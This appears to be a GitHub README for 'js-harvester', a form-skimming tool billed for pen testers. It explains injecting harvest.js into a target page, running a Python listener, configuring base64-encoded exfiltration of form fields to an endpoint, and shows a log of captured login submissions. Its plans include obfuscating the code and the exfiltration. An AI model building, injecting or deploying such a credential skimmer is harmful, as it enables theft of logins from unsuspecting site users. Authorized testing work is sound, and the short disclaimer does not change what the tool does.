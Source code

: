 # js-harvester
This is a tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access.
# installation
* Requires jQuery
* Ability to inject harvest.js to the target site
# usage
1. Identify target page to harvest data from (see example-forms for reference/test materials)
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
6. Update the settings in harvest.js
```
var dynamicTrackers = true;			//	(boolean, true/false) 
var bindAllFormsSwitch = true;		//	(boolean, true/false)
var formName = "loginform2";
var enableEncoding = true;			//	(boolean, true/false)
var usePost = false;				//	(boolean, true/false)
var trackClients = true;			//	(boolean, true/false)
var allowSubmission = false;		//	(boolean, true/false)
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```

* <b>dynamicTrackers:</b> if false, manually update siteId and formId tracking values to unique values
* <b>bindAllFormsSwitch:</b> boolean value 'true' or 'false'. true will bind all forms on the page, false will bind the form name specified by 'formName'
* <b>formName:</b> required if not binding all forms on the page (see bindAllFormsSwitch)
* <b>enableEncoding:</b> enables base64 encoding of exfiltrated data, may expand to other encoding types/formats
* <b>usePost:</b> boolean value 'true' or 'false'. indicates whether a POST request should be used for data exfiltration, default is to use GET
* <b>trackClients:</b> boolean value 'true' or 'false'. controls whether user client (browser) information is collected
* <b>allowSubmission:</b> boolean value 'true' or 'false'. allows (true) or disables (false) the form submission function on target forms
* <b>_0x3745:</b> array of values used for data exfiltration, the first 4 need to be customized for the data exfiltration endpoint

5. Listen. . .
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.1.211 - - [14/Sep/2024 18:39:22] "GET /harvest?data=dXNlcm5hbWU6cGV0ZXImcGFzc3dvcmQ6d2VpbmVyJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:27] "GET /harvest?data=dXNlcm5hbWU6YWRtaW4mcGFzc3dvcmQ6YWRtaW4mc2l0ZUlkOk1Ua3lMakUyT0M0eExqSXpOdz09JmZvcm1JZDpMMnB6YUdGeWRtVnpkQzlzYjJkcGJpMW1iM0p0TG1oMGJXd3RiRzluYVc1bWIzSnQ= HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:33] "GET /harvest?data=dXNlcm5hbWU6Z2VvcmdlJnBhc3N3b3JkOmJ1cm5zJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                                       
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ 
```

# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* client feedback options
* enhance decoder tools
* change form processing to avoid using name or id properties
* collect client information
* customizable serialization separators
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
